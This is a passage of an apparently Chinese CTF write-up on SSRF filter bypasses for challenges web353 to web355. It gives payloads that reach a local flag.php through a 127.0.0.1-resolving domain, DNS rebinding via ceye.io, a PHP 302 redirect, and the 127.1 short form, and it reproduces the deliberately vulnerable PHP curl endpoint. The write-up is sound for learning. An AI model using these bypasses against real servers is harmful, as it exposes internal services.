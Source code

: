 ```
url=http://sudo.cc/flag.php
```

DNS-Rebinding攻击绕过

```
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

302跳转绕过也行，在自己的网站主页加上这个

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

再或者我自己的域名A记录设为了127.0.0.1

或者有个现成的A记录是127.0.0.1的网站

```
url=http://sudo.cc/flag.php
```

## web354

302跳转绕过也行，在自己的网站主页加上这个

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

## web355

设置了$host<5的限制，随便来个利用127.0.0.1=127.1刚好是5位

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```
